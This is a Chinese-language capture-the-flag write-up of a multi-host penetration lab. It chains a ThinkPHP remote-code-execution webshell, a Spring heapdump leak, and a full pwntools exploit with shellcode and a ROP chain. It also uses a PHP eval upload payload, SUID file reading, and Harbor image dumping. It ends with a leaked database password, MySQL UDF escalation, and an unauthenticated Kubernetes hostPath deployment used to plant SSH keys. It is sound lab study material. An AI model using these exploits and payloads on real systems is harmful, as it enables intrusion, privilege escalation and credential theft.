

# GreatWall

8.130.13.188

```python
root@chu0-System-Product-Name:/home/chu0# ./fs -h 8.130.13.188

   ___                              _  
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <  
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
(icmp) Target 8.130.13.188    is alive
[*] Icmp alive hosts len is: 1
8.130.13.188:8080 open
8.130.13.188:22 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle: http://8.130.13.188:8080  code:200 len:1027   title:Login Form
[+] http://8.130.13.188:8080 poc-yaml-thinkphp5023-method-rce poc1
```

# Login Form

tp漏洞，getshell

```python
http://8.130.13.188:8080/bak.php

密码1
```

```python
flag01: flag{176f49b6-147f-4557-99ec-ba0a351e1ada}
```

传的东西都在tmp目录下

```python
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.28.23.17  netmask 255.255.0.0  broadcast 172.28.255.255
        inet6 fe80::216:3eff:fe03:2cf8  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:03:2c:f8  txqueuelen 1000  (Ethernet)
        RX packets 69276  bytes 61509438 (61.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 36052  bytes 12797326 (12.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1408  bytes 132612 (132.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1408  bytes 132612 (132.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

​`./fs -h 172.28.23.1/24 -o result.txt`​

```python
172.28.23.33:8080 open
172.28.23.17:8080 open
172.28.23.26:80 open
172.28.23.26:22 open
172.28.23.17:80 open
172.28.23.17:22 open
172.28.23.33:22 open
172.28.23.26:21 open
[*] WebTitle: http://172.28.23.17       code:200 len:10887  title:None
[*] WebTitle: http://172.28.23.17:8080  code:200 len:1027   title:Login Form
[*] WebTitle: http://172.28.23.26       code:200 len:13693  title:新翔OA管理系统-OA管理平台联系电话：13849422648微信同号，QQ958756413
[+] ftp://172.28.23.26:21:anonymous 
   [->]OASystem.zip
[*] WebTitle: http://172.28.23.33:8080  code:302 len:0      title:None 跳转url: http://172.28.23.33:8080/login;jsessionid=F702CE6B9A8E31175C941A003FBB23DA
[*] WebTitle: http://172.28.23.33:8080/login;jsessionid=F702CE6B9A8E31175C941A003FBB23DA code:200 len:3860   title:智联科技 ERP 后台登陆
[+] http://172.28.23.17:8080 poc-yaml-thinkphp5023-method-rce poc1
[+] http://172.28.23.33:8080 poc-yaml-spring-actuator-heapdump-file 
[+] http://172.28.23.33:8080 poc-yaml-springboot-env-unauth spring2
```

第一层代理8.130.13.188:10000

‍

# 智联科技 ERP 后台登陆

spring信息泄露，heapdump拿到key，然后注入内存马

http://172.28.23.33:8080/123

下面是一个pwn，在home目录下有个op01

```python
from pwn import *

elf = ELF('./HashNote')
context(arch=elf.arch, os='linux', log_level='debug')
# p = process('./HashNote')

p = remote('172.28.23.33', 59696)

def send_command(command):
    p.sendlineafter(': ', str(command))

def add_entry(key, value):
    send_command(1)
    p.sendlineafter('Key: ', key)
    p.sendlineafter('Data: ', value)

def get_entry(key):
    send_command(2)
    p.sendlineafter('Key: ', key)

def update_entry(key, value):
    send_command(3)
    p.sendlineafter('Key: ', key)
    p.sendlineafter('Data: ', value)

def set_username(value):
    send_command(4)
    p.sendafter('New username: ', value)

p.sendlineafter('Username: ', '123')
p.sendlineafter('Password: ', 'freep@ssw0rd:3')

add_entry('aabP', 'aaaaaaaa')
add_entry('aace', 'C' * 0xc0)

sc = [
    '\x6a\x3b',                   # push   0x3b
    '\x58',                       # pop    rax
    '\x99',                       # cdq
    '\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68', # movabs rbx, 0x68732f6e69622f2f
    '\x53',                       # push   rbx
    '\x48\x89\xe7',               # mov    rdi, rsp
    '\x52',                       # push   rdx
    '\x57',                       # push   rdi
    '\x48\x89\xe6',               # mov    rsi, rsp
    '\x0f\x05'                    # syscall
]
shellcode = b''.join(sc)
username_addr = 0x5dc980
fake_obj_addr = username_addr + 0x10

def arbitrary_read(addr):
    payload = p64(fake_obj_addr)
    payload += p64(0xdeadbeef)

    fake_obj = p64(fake_obj_addr + 0x10) + p64(4)
    fake_obj += 'aahO'.ljust(0x10, '\x00')
    fake_obj += p64(addr) + p64(8) + 'aaaaaaaa'

    payload += fake_obj
    payload += shellcode
    payload = payload.ljust(128, '\x00')
    set_username(payload)
    get_entry('aahO')

# 任意读/写函数
def arbitrary_write(addr, data):
    payload = p64(fake_obj_addr)
    payload += p64(0xdeadbeef)

    fake_obj = p64(fake_obj_addr + 0x10) + p64(4)
    fake_obj += 'aahO'.ljust(0x10, '\x00')
    fake_obj += p64(addr) + p64(len(data)) + 'aaaaaaaa'

    payload += fake_obj
    payload += shellcode
    payload = payload.ljust(128, '\x00')
    set_username(payload)
    update_entry('aahO', data)

environ = 0x5e4c38
arbitrary_read(environ)
stack_addr = u64((p.recvuntil('\x7f', drop=False)[-6:].ljust(8, '\0')))
success('stack_addr', stack_addr)

rdi = 0x0000000000405e7c
rsi = 0x000000000040974f
rax = 0x00000000004206ba
rdx_rbx = 0x000000000053514b
shr_eax_2 = 0x0000000000523f2e
syscall_ret = 0x00000000004d9776

payload = p64(rdi) + p64(username_addr & ~0xfff) + p64(rsi) + p64(0x1000) + p64(rdx_rbx) + p64(7) + p64(0) + p64(rax) + p64(0xa << 2) + p64(shr_eax_2) + p64(syscall_ret) + p64(username_addr + 0x48)

arbitrary_write(stack_addr - 0x210, payload)
p.sendline('uname -ar')

p.interactive()
```

flag03: flag{6a326f94-6526-4586-8233-152d137281fd}

# 新翔OA

http://172.28.23.26/uploadbase64.php

```python
<?php
/**
 * Description: PhpStorm.
 * Author: yoby
 * DateTime: 2018/12/4 18:01
 * Email:logove@qq.com
 * Copyright Yoby版权所有
 */
$img = $_POST['imgbase64'];
if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $img, $result)) {
    $type = ".".$result[2];
    $path = "upload/" . date("Y-m-d") . "-" . uniqid() . $type;
}
$img =  base64_decode(str_replace($result[1], '', $img));
@file_put_contents($path, $img);
exit('{"src":"'.$path.'"}');
```

```python
imgbase64=data:image/php;base64,PD89ZXZhbCgkX1BPU1RbMV0pOw==
```

```python
http://172.28.23.26/upload/2024-06-03-665db63834ca2.php

密码1
```

​​

修改生成的文件中的文件名，改为我们的一句话马子，这里post马子有点问题需要换成get的马子

```python
http://172.28.23.26/upload/.antproxy.php?1=system("whoami");
```

```python
find / -perm -u=s -type f 2>/dev/null

/bin/fusermount
/bin/ping6
/bin/mount
/bin/su
/bin/ping
/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/staprun
/usr/bin/base32
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/s-nail/s-nail-privsep
```

base32具有suid权限，直接读取flag

```python
MZWGCZZQGI5CAZTMMFTXWNJWMQZTONZTGQWTKZRXGMWTINBXMYWWEMLBGUWWCOBTMY2DKNJUHFRDEOD5BI======
```

```python
flag02: flag{56d37734-5f73-447f-b1a5-a83f45549b28}
```

ifconfig

```python

eth0      Link encap:Ethernet  HWaddr 00:16:3e:04:99:35  
          inet addr:172.28.23.26  Bcast:172.28.255.255  Mask:255.255.0.0
          inet6 addr: fe80::216:3eff:fe04:9935/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:52494 errors:0 dropped:0 overruns:0 frame:0
          TX packets:16279 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:57355451 (57.3 MB)  TX bytes:14468994 (14.4 MB)

eth1      Link encap:Ethernet  HWaddr 00:16:3e:04:67:36  
          inet addr:172.22.14.6  Bcast:172.22.255.255  Mask:255.255.0.0
          inet6 addr: fe80::216:3eff:fe04:6736/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:900 errors:0 dropped:0 overruns:0 frame:0
          TX packets:902 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:38896 (38.8 KB)  TX bytes:38816 (38.8 KB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:379 errors:0 dropped:0 overruns:0 frame:0
          TX packets:379 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:138851 (138.8 KB)  TX bytes:138851 (138.8 KB)
```

cd /tmp;./fs -h 172.22.14.1/24 -o result.txt

```python

start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.14.6     is alive
(icmp) Target 172.22.14.46    is alive
(icmp) Target 172.22.14.37    is alive
[*] Icmp alive hosts len is: 3
172.22.14.6:21 open
172.22.14.46:80 open
172.22.14.37:22 open
172.22.14.46:22 open
172.22.14.6:80 open
172.22.14.6:22 open
172.22.14.37:10250 open
172.22.14.37:2379 open
[*] alive ports len is: 8
start vulscan
[*] WebTitle: http://172.22.14.6        code:200 len:13693  title:新翔OA管理系统-OA管理平台联系电话：13849422648微信同号，QQ958756413
[*] WebTitle: http://172.22.14.46       code:200 len:785    title:Harbor
[+] InfoScan:http://172.22.14.46       [Harbor] 
[*] WebTitle: https://172.22.14.37:10250 code:404 len:19     title:None
[+] ftp://172.22.14.6:21:anonymous 
   [->]OASystem.zip
[+] http://172.22.14.46/swagger.json poc-yaml-swagger-ui-unauth [{path swagger.json}]

```

第二层代理 172.28.23.26:10001

# Harbor1

CVE-2022-46463未授权访问，进行镜像扫描

```python
[+] search -> 0
[]
[+] search -> 1
[]
[+] search -> 2
[]
[+] search -> 3
[]
[+] search -> 4
[]
[+] search -> 5
[]
[+] search -> 6
[]
[+] search -> 7
[]
[+] search -> 8
[]
[+] search -> 9
[]
[+] search -> a
[{4: 'project/projectadmin'}, {4: 'project/portal'}, {1: 'library/nginx'}, {1: 'library/redis'}, {3: 'harbor/secret'}]
[+] search -> b
[{1: 'library/nginx'}, {1: 'library/redis'}, {3: 'harbor/secret'}]
[+] search -> c
[{4: 'project/projectadmin'}, {4: 'project/portal'}, {3: 'harbor/secret'}]
[+] search -> d
[{4: 'project/projectadmin'}, {1: 'library/redis'}]
[+] search -> e
[{4: 'project/projectadmin'}, {4: 'project/portal'}, {1: 'library/redis'}, {3: 'harbor/secret'}]
[+] search -> f
[]
[+] search -> g
[{1: 'library/nginx'}]
[+] search -> h
[{3: 'harbor/secret'}]
[+] search -> i
[{4: 'project/projectadmin'}, {1: 'library/nginx'}, {1: 'library/redis'}]
[+] search -> j
[{4: 'project/projectadmin'}, {4: 'project/portal'}]
[+] search -> k
[]
[+] search -> l
[{4: 'project/portal'}, {1: 'library/nginx'}, {1: 'library/redis'}]
[+] search -> m
[{4: 'project/projectadmin'}]
[+] search -> n
[{4: 'project/projectadmin'}, {1: 'library/nginx'}]
[+] search -> o
[{4: 'project/projectadmin'}, {4: 'project/portal'}, {3: 'harbor/secret'}]
[+] search -> p
[{4: 'project/projectadmin'}, {4: 'project/portal'}]
[+] search -> q
[]
[+] search -> r
[{4: 'project/projectadmin'}, {4: 'project/portal'}, {1: 'library/nginx'}, {1: 'library/redis'}, {3: 'harbor/secret'}]
[+] search -> s
[{1: 'library/redis'}, {3: 'harbor/secret'}]
[+] search -> t
[{4: 'project/projectadmin'}, {4: 'project/portal'}, {3: 'harbor/secret'}]
[+] search -> u
[]
[+] search -> v
[]
[+] search -> w
[]
[+] search -> x
[{1: 'library/nginx'}]
[+] search -> y
[{1: 'library/nginx'}, {1: 'library/redis'}]
[+] search -> z
[]
Vulnerability URL, please verify
http://172.22.14.46//harbor/projects/4/repositories/projectadmin?publicAndNotLogged=yes
http://172.22.14.46//harbor/projects/3/repositories/secret?publicAndNotLogged=yes
http://172.22.14.46//harbor/projects/1/repositories/nginx?publicAndNotLogged=yes
http://172.22.14.46//harbor/projects/4/repositories/portal?publicAndNotLogged=yes
http://172.22.14.46//harbor/projects/1/repositories/redis?publicAndNotLogged=yes
```

下载secret镜像

```python
python harbor.py http://172.22.14.46/ --dump harbor/secret --v2
```

​​

flag05: flag{8c89ccd3-029d-41c8-8b47-98fb2006f0cf}

# Harbor2

继续下载镜像

```python
python harbor.py http://172.22.14.46/ --dump project/projectadmin --v2
```

​​

在另一个文件夹的run.sh中发现运行了该程序，反编译之后发现数据库的账号密码

```python
spring.datasource.url=jdbc:mysql://172.22.10.28:3306/projectadmin?characterEncoding=utf-8&useUnicode=true&serverTimezone=UTC
spring.datasource.username=root
spring.datasource.password=My3q1i4oZkJm3
spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver

mybatis.type-aliases-package=com.smartlink.projectadmin.entity
mybatis.mapper-locations=classpath:mybatis/mapper/*.xml
```

尝试连接，这里是直接用到了这里的url和端口，数据库滞空，账号&密码

​​

直接udf提权

​​

flag06: flag{413ac6ad-1d50-47cb-9cf3-17354b751741}

# K8s未授权访问

访问6443端口，发现存在未授权

编写一个脚本启动容器

evil-deployment.yaml

```python
apiVersion: apps/v1
kind: Deployment
metadata:
  name: nginx-deployment
  labels:
    app: nginx
spec:
  replicas: 1
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      containers:
      - name: nginx
        image: nginx:1.8
        volumeMounts:
        - mountPath: /mnt
          name: test-volume
      volumes:
      - name: test-volume
        hostPath:
          path: /
```

由于proxychain无法代理kubectl客户端的流量，所以使用win开全局取打

```python
kubectl.exe --insecure-skip-tls-verify -s https://172.22.14.37:6443/  apply -f evil-deployment.yaml
```

列出pod（感觉像是启动的容器列表）

```python
kubectl.exe --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get pods
```

利用id登录容器

```python
kubectl.exe --insecure-skip-tls-verify -s https://172.22.14.37:6443/ exec -it nginx-deployment-864f8bfd6f-fktn5 /bin/bash
```

因为上面的启动脚本已经将宿主机的磁盘挂载到mnt目录下了，所以我们直接在mnt目录下对宿主机的磁盘进行操作

利用linux机器生成ssh连接密钥

```python
ssh-keygen -t rsa -b 4096 
```

默认路径/root/.ssh/id_rsa，将生成的id_rsa.pub写入靶机对应文件

```python
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDjPlOojvCChYma6vh0Wgt0pV0cgnVWIc/sf6M/J1xsHfYxT+gkzc9sl3FEbcv6gSh5t6wCVbXip5kbLqFaBbICjb6ckb7JGnTpJvOXIzf2Le8b9huW2SRlmoWItZIMWfAsc/3lO/qNDSw0izGg7N5txsGYF03hpFrx9PDsx/IsVp1pG07LeYHWY/hNutSayfTU6doa4+qFKFTXoaZ6yQZAMCAaaj8M/gqmMl5NE+l0N6kH4lGgAoZ9oxlxcoL6h2AkrUmbCVnZzShzy9aH6/cel9Muct/wexsQq57mgE0ExEhMj7tuS6kP4dyrxpeycf5t8wY6y4/0tSpUB93zAqqVlw3GxX7VA4XofeNnJR+uu4xmDCkdN3hSy3+oXja6Q26vAzY/A00PADE4JQjdQyJzkuuJAv7u4iD0oXnqjiXJLqAWNn81Gh/VDjHy/hTUsmYPJNtjzOuYmNwYzBy/tpNIh61RYMVKm6JanahG8ViZckOn2gBaX4JhFcNcJsm457gfF5y/2lGaOhKt8PI3Fc9DZT5n134uarDx+HNznVWbig28DIzgki/eqxQU+0Ocw3iD+PrddwqeyBh/8F6xLYoew52gzqExaqkUOtgT0kmZol4JJCd5gQu0k0Ow0tnUpSCl1TXS/aCCL3u2eKQXf0TbKHsgjTKI5am9HuQEuBKHww== root@kali" > authorized_keys
```

然后利用私钥ssh连接登录宿主机，除了命令之外还可以用ssh软件导入私钥登录

```python
proxychains ssh -i  /root/.ssh/id_rsa root@172.22.14.37
```

​​

在数据库中拿到flag

```python
ZmxhZ3tkYTY5YzQ1OS03ZmU1LTQ1MzUtYjhkMS0xNWZmZjQ5NmEyOWZ9Cg==
```

flag04：flag{da69c459-7fe5-4535-b8d1-15fff496a29f}
